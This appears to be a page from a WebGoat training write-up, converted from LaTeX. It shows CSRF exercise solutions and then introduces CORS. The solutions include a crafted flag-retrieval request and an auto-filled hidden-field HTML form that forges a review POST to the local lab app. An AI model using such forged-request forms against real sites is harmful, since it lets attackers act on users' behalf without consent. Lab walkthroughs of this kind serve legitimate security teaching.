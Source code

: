 \documentclass[a4paper, 10pt, titlepage]{article}
\begin{document}
\begin{verbatim}
/csrf/basic-get-flag?csrf=false&submit=submit&submit=submit
\end{verbatim}
A success message will be returned, with the flag value requested. \medskip\\
Exercise 4 is similar, but a PUT request is needed. The button tries to execute the request:
\begin{verbatim}
/csrf/review/reviewText=Wow&stars=5&validateReq=2aa14227b9a13d0bede0388a7fba9aa9
\end{verbatim}
The HTML page will be:
\begin{lstlisting}
	<html><body>
		<form action="http://localhost:8881/WebGoat/csrf/review"
				method="POST">
        	<input name="validateReq" type="hidden"
        		value="2aa14227b9a13d0bede0388a7fba9aa9">
        	<input type="hidden" name="reviewText" value="lol"> 
			<input type="hidden" name="stars" value="5"> 
			<input type="submit" name="submit" value="submit">    
		</form>
	</body></html>
\end{lstlisting}
\subsection{Cross-Origin Resource Sharing (CORS)}
Cross-Origin Resource Sharing (CORS) is a mechanism that uses additional HTTP headers to tell browsers to give a web application running at one origin, access to selected resources from a different origin. A web application executes a cross-origin HTTP request when it requests a resource that has a different origin (domain, protocol, or port) from its own.

An example of a cross-origin request: the front-end JavaScript code served from
\begin{verbatim}
https://domain-a.com
\end{verbatim}  
uses XMLHttpRequest to make a request for 
\begin{verbatim}
https://domain-b.com/data.json.
\end{verbatim}
For security reasons, browsers restrict cross-origin HTTP requests initiated from \textbf{scripts}. For example, \textbf{XMLHttpRequest} and the Fetch API follow the same-origin policy. This means that a web application using those APIs can only request resources from the same origin the application was loaded from, unless the response from other origins includes the right CORS headers.
\begin{figure}[h]
\texttt{[image: img/cors.png]}
\end{figure}
\end{document}
